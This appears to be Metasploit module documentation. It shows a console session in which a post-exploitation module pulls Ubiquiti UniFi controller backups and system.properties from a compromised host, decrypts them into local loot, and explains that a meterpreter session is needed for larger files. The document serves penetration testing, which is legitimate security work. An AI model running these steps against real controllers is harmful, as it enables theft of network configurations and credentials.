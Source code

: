 ### Using a SHELL With Multiple Larger Backups on Ubiquiti Unifi Controller 5.10.23

An example of the output when not utilizing meterpreter (just a shell) to access the files.  The solution is to upgrade to meterpreter, which will
work successfully.

```
msf post(multi/gather/ubiquiti_unifi_backup) > sessions

Active sessions
===============

  Id  Name  Type                   Information                                               Connection
  --  ----  ----                   -----------                                               ----------
  1         shell linux            SSH unifi:unifi (1.1.1.1:22)                              2.2.2.2:35125 -> 1.1.1.1:22 (1.1.1.1)
  2         meterpreter x86/linux  uid=1000, gid=1000, euid=1000, egid=1000 @ 1.1.1.1        2.2.2.2:4433 -> 1.1.1.1:52584 (1.1.1.1)

msf post(multi/gather/ubiquiti_unifi_backup) > session -i 1
l[-] Unknown command: session.
msf post(multi/gather/ubiquiti_unifi_backup) > sessions -i 1
[*] Starting interaction with 1...

ls -lah /var/lib/unifi/backup/*.unf
-rw-r----- 1 unifi unifi  15K Mar 22 21:15 /var/lib/unifi/backup/5.10.19.unf
-rw-r----- 1 unifi unifi 3.3M May 10 13:59 /var/lib/unifi/backup/5.10.20.unf
-rw-r----- 1 unifi unifi 3.3M May 10 14:26 /var/lib/unifi/backup/5.10.23.unf
^Z
Background session 1? [y/N]  y
msf post(multi/gather/ubiquiti_unifi_backup) > set session 1
session => 1
msf post(multi/gather/ubiquiti_unifi_backup) > run

[!] SESSION may not be compatible with this module.
[+] Read UniFi Controller file /var/lib/unifi/system.properties
[+] File /var/lib/unifi/backup/5.10.19.unf saved to /root/.msf4/loot/20190510150128_default_1.1.1.1_ubiquiti.unifi.b_313804.unf
[+] File 5.10.19.unf DECRYPTED and saved to /root/.msf4/loot/20190510150128_default_1.1.1.1_ubiquiti.unifi.b_129165.zip.  File needs to be repair via `zip -FF`
[*] Attempting to repair zip file (this is normal)
[+] File /var/lib/unifi/backup/5.10.19.unf DECRYPTED and REPAIRED and saved to /root/.msf4/loot/20190510150128_default_1.1.1.1_ubiquiti.unifi.b_016198.zip.
[-] /var/lib/unifi/backup/5.10.20.unf read at 0 bytes.  Either file is empty or error reading.  If this is a shell, you need to upgrade to meterpreter!!!
[-] /var/lib/unifi/backup/5.10.23.unf read at 0 bytes.  Either file is empty or error reading.  If this is a shell, you need to upgrade to meterpreter!!!
[*] Post module execution completed
```
